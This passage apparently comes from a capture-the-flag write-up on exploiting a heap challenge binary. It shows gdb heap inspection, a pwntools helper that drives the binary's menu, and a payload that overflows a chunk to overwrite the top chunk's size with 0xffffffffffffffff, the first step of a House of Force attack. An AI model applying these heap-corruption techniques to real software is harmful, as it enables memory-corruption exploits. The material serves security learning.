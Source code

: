 ## Top chunk overflow

Let's have a look at the heap chunks in **gdb** with `vis` command before allocating anything ourselves.

![](images/vis.png)

Ok, now let's allocate a chunk with option `1. Craft sword`.

Here I made a helper malloc() function to simplify things. It takes as arguments the **size** of the buffer to be allocated and the **data** to be written in the buffer, respectively.

```python
def malloc(size, data):
	io.sendlineafter(">> ", "1")
	io.sendlineafter(">> ", f"{size}")
	if data:
		io.sendafter(">> ", data)
```

We will send **24 bytes** and overflow with `0xffffffffffffffff` to see how the heap changes. The minimum size that malloc() can allocate is **24 bytes plus 8 bytes** for the **size field**. So we're expecting the top chunk to move at address `0x556b9499b320 + 0x20 = 0x556b9499b340`.

```python
malloc(24, b"A" * 24 + b"\xff" * 8)
```

![](images/vis1.png)
